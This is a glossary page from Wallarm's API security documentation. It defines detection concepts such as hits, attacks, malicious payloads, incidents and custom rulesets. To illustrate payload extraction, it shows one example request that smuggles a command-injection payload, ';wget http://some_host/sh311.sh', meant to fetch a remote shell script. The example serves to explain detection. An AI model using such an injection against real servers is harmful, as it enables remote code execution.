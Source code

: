 # Glossary

The glossary covers the core Wallarm entities to provide you with a better understanding of the platform.

## Hit

A hit is a serialized malicious request (original malicious request and metadata added by the filtering node), e.g.:

![!Hit example](images/user-guides/events/analyze-attack-raw.png)

[Details on hit parameters](user-guides/events/analyze-attack.md#analyze-requests-in-an-attack)

## Attack

An attack is a single hit or multiple hits grouped by the following characteristics:

* The same attack type, the parameter with the malicious payload, and the address the hits were sent to. Hits may come from the same or different IP addresses and have different values of the malicious payloads within one attack type.

    This hit grouping method is basic and applied to all hits.
* The same source IP address if the appropriate [trigger](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) is enabled. Other hit parameter values can differ.

    This hit grouping method works for all hits except for the ones of the Brute force, Forced browsing, BOLA (IDOR), Resource overlimit, Data bomb and Virtual patch attack types.

    If hits are grouped by this method, the [**Mark as false positive**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) button and the [active verification](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) option are unavailable for the attack.

The listed hit grouping methods do not exclude each other. If hits have characteristics of both methods, they are all grouped into one attack.

An example of an attack including a single hit:

![!Attack with one hit](images/glossary/attack-with-one-hit-example.png)

An example of an attack including many hits:

![!Attack with several hits](images/glossary/attack-with-several-hits-example.png)

## Malicious Payload

A part of an original request containing the following elements:

* Attack signs detected in a request. If several attack signs characterizing the same attack type are detected in a request, only the first sign will be recorded to a payload.
* Context of the attack sign. Context is a set of symbols preceding and closing detected attack signs. Since a payload length is limited, the context can be omitted if an attack sign is of full payload length.

For example:

* Request:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Malicious payload:

    ```bash
    ;wget+http://s
    ```

    In this payload, `;wget+` is the [RCE](attacks-vulns-list.md#remote-code-execution-rce) attack sign and another part of the payload is the attack sign context.

Since attack signs are not used to detect [behavioral attacks](about-wallarm/protecting-against-attacks.md#behavioral-attacks), requests sent as a part of behavioral attacks have empty payloads.

## Vulnerability
A vulnerability is an error made due to negligence or inadequate information when building or implementing a web application that can lead to an information security risk.

The information security risks are:

* Unauthorized data access; for example, access to read and modify user data.
* Denial of service.
* Data corruption and other.

The Internet traffic can be used to detect the vulnerabilities, which is what Wallarm does, among other functions.

## Security Incident

A security incident is an occurrence of vulnerability exploitation. An incident is an [attack](#attack) targeted at a confirmed vulnerability.

An incident, just like an attack, is an entity external to your system and is a characteristic of the outside Internet, not the system itself. Despite the fact that the attacks targeted at existing vulnerabilities are a minority, they are of the utmost importance in terms of information security. Wallarm automatically detects the attacks targeted at existing vulnerabilities and displays them as a separate object - incident.

## Circular Buffer
A circular buffer is a data structure that uses a single, fixed‑size buffer as if it were connected end‑to‑end.
[See Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Custom ruleset (the former term is LOM)

A custom ruleset is a set of compiled API Security rules downloaded by Wallarm nodes from the Wallarm Cloud.

Custom rules enable you to set up individual rules for the traffic processing, e.g.:

* Mask sensitive data before uploading to the Wallarm Cloud
* Create regexp-based attack indicators
* Apply a virtual patch blocking requests that exploit an active vulnerability
* Disable attack detection in certain requests, etc.

A custom ruleset is not empty by default, it contains the rules created for all clients registered in the Cloud, e.g. the filtration mode rule with the value from the [**Settings → General** tab](user-guides/settings/general.md).

[More details on custom rulesets](user-guides/rules/intro.md)

## Invalid Request
A request that was checked by filter node and does not match LOM rules.

## Reverse Proxy
A reverse proxy is a type of proxy server that retrieves resources on behalf of a client from a server and returns the resources to the client as if they originated from the Web server itself.
[See Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Certificate Authority
A certificate authority is an entity that issues digital certificates.
[See Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
